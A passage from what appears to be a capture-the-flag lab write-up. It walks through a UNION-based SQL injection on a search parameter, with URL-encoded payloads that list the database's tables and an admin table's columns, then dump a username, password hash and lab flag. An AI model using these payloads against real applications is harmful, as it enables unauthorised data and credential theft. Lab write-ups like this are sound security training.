       <td>4</td>
      </tr>
      </table>  
      ```
    - Injected payload to extract table names as  
      ```
      search='%20Union%20select%201,table_name,3,4%20from%20information_schema.tables%20where%20table_schema=database()--+
      ```
      The response included two tables named as **admin**, **stock** respectively.  
      ```
      <table>
                <tr>
                    <td>admin</td>
                    <td>3</td>
                    <td>4</td>
                </tr>
                <tr>
                    <td>stock</td>
                    <td>3</td>
                    <td>4</td>
                </tr>
      </table>
      ```
    - Injected payload to extract column names in 'admin' table  
      ```
      search='%20Union%20select%201,column_name,3,4%20from%20information_schema.columns%20where%20table_name='admin'--+
      ```
      Received three columns in response as 'id','user','hash'.  
      ```
      <tr>
                  <td>id</td>
                  <td>3</td>
                  <td>4</td>
      </tr>
      
      <tr>
                    <td>user</td>
                    <td>3</td>
                    <td>4</td>
      </tr>
      
      <tr>
                    <td>hash</td>
                    <td>3</td>
                    <td>4</td>
      </tr>
      ```

    - Injected payload to extract data from 'admin' table  
      ```
      <tr>
                    <td>1</td>
                    <td>xXUltimateCreeperXx</td>
                    <td>88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01</td>
      </tr>
      <tr>
                    <td>4</td>
                    <td>web_flag</td>
                    <td>THM{bbe315906038c3a62d9b195001f75008}</td>
       </tr>
      ```
      Successfully retrieved username and password hash alongwith the web_flag.  
